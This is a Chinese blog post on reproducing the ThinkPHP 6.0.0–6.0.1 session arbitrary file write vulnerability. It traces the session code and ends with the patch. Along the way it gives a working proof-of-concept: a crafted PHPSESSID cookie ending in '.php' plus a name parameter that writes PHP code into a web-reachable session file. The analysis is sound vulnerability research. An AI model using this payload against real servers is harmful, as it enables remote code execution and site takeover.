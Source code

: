 date: 2020-02-01
categories:
- cve复现
tags:
- cve复现
title: ThinkPHP6 任意文件操作漏洞分析
---
# ThinkPHP6 任意文件操作漏洞分析

## 利用条件

1. ThinkPHP6.0.0-6.0.1
2. 开启Sessoin中间件

## 漏洞复现

官方commit: https://github.com/top-think/framework/commit/1bbe75019ce6c8e0101a6ef73706217e406439f2 

复现环境为:phpstudy+thinkphp6.0.1

`\app\controller\index.php`:

```php
<?php
namespace app\controller;

use app\BaseController;
use think\facade\Session;
class Index extends BaseController
{
    public function index($name)
    {
        Session::set('name', $name);
        return 'hello,' . Session::get('name');;
    }
    
}
```



`\app\middleware.php`

```php
<?php
// 全局中间件定义文件
return [
    // 全局请求缓存
    // \think\middleware\CheckRequestCache::class,
    // 多语言加载
    // \think\middleware\LoadLangPack::class,
//     Session初始化
     \think\middleware\SessionInit::class
];
```





根据漏洞的信息(任意文件操作),我们从`vendor\topthink\framework\src\think\session\Store.php` 的`save`函数开始进行分析

```php
public function save(): void
    {
        $this->clearFlashData();//清除原来的数据

        $sessionId = $this->getId();

        if (!empty($this->data)) {
            $data = $this->serialize($this->data);

            $this->handler->write($sessionId, $data);
        } else {
            $this->handler->delete($sessionId);
        }

        $this->init = false;
    }
```

跟进`$this->handler->write`方法看一下

```php
public function write(string $sessID, string $sessData): bool
    {
        $filename = $this->getFileName($sessID, true);
        $data     = $sessData;

        if ($this->config['data_compress'] && function_exists('gzcompress')) {
            //数据压缩
            $data = gzcompress($data, 3);
        }

        return $this->writeFile($filename, $data);
    }
```

再跟进`$this->writeFile`

```php
protected function writeFile($path, $content): bool
    {
        return (bool) file_put_contents($path, $content, LOCK_EX);
    }
```

因为`$data`可控,那么我们只要能控制`$path`我们就可以写shell进去了

而`$path`由`$this->getFileName($sessID, true);`得到

跟进去

```php
	protected function getFileName(string $name, bool $auto = false): string
    {
        if ($this->config['prefix']) {
            // 使用子目录
            $name = $this->config['prefix'] . DIRECTORY_SEPARATOR . 'sess_' . $name;
        } else {
            $name = 'sess_' . $name;
        }

        $filename = $this->config['path'] . $name;
        $dir      = dirname($filename);

        if ($auto && !is_dir($dir)) {
            try {
                mkdir($dir, 0755, true);
            } catch (\Exception $e) {
                // 创建失败
            }
        }

        return $filename;
    }
```

`$filename`直接由末端拼接参数`$name`

而`write`调用`getFileName`时直接将参数`$sessID`传入,`$sessID`由`$sessionId = $this->getId();`获得

```php
	public function getId(): string
    {
        return $this->id;
    }
```

`$this->id`时通过`setId()`来设置的

```php
	public function setId($id = null): void
    {
        $this->id = is_string($id) && strlen($id) === 32 ? $id : md5(microtime(true) . session_create_id());
    }
```

如果`is_string($id) && strlen($id) === 32 `满足,则直接将`$id`的值赋给`$this->id`

查找调用setId的函数

![image3070](https://i.loli.net/2020/02/01/cAes3Wot8BFbkjP.png)

其中`SessionInit`

```php
	public function handle($request, Closure $next)
    {
        // Session初始化
        $varSessionId = $this->app->config->get('session.var_session_id');
        $cookieName   = $this->session->getName();

        if ($varSessionId && $request->request($varSessionId)) {
            $sessionId = $request->request($varSessionId);
        } else {
            $sessionId = $request->cookie($cookieName);
        }

        if ($sessionId) {
            $this->session->setId($sessionId);
        }
	}
```

查找配置发现`$sessionId`=>`$_COOKIE['PHPSESSID']`

因此构造payload

```
http://127.0.0.1/tp/public/index.php?s=/index/index/&name=%3C?php%20phpinfo();?%3E

Cookie :PHPSESSID=9f7777c08f3909751b148338ba08.php

访问http://127.0.0.1/tp/runtime/session/sess_9f7777c08f3909751b148338ba08.php
```



## 补丁分析

```php
public function setId($id=null):void
{
    $this->id = is_string($id) && strlen($id) === 32 && ctype_alnum($id) ? $id : md5(microtime(true) . session_create_id());
}
```

在`setId`中增加了对`$id`的校验:`ctype_alnum($id)`,只允许数字或字母,来避免任意文件操作



## 参考

 https://paper.seebug.org/1114/#_1 